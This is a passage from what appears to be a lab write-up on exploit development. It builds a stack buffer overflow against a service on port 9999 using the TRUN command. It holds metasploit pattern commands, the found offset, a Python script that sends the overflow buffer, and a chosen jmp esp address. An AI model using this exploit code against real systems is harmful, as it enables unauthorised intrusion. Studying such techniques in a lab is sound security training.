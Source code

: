 ```py
        sys.exit()
```

Using metasploit's pattern create, we are able to send a unique string and identify the offset at which EIP begins to be overwritten.

```sh
$ /usr/bin/msf-pattern_create -l 2100
Aa0Aa1[...]r8Cr9
$ /usr/bin/msf-pattern_offset -q 386F4337 -l 2100
[*] Exact match at offset 2003
```

```py
#!/usr/bin/python
import sys, socket

ip = '10.21.1.14'
port = 9999

# msfvenom code comes later

fuzz="A"*2003
ret ="B"*4

buffer = fuzz + ret + "C"*100

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip,port))
    s.send(('TRUN /.:/' + buffer))
    print "[+] Sending buffer"
    s.close()
except:
    print "[-] Failed!"
    sys.exit()
```

![Image](assets/img/blog/lets-go-egghunting/image-42.png)

Using Mona we are able to find a `jmp esp` instruction, which will allow us to point the program to our shell code which will trigger the egg hunter. As we are not performing a structured exception handler (SEH) buffer overflow here, we can use a `jmp esp` instruction. In this case we will use `0x625011AF`.
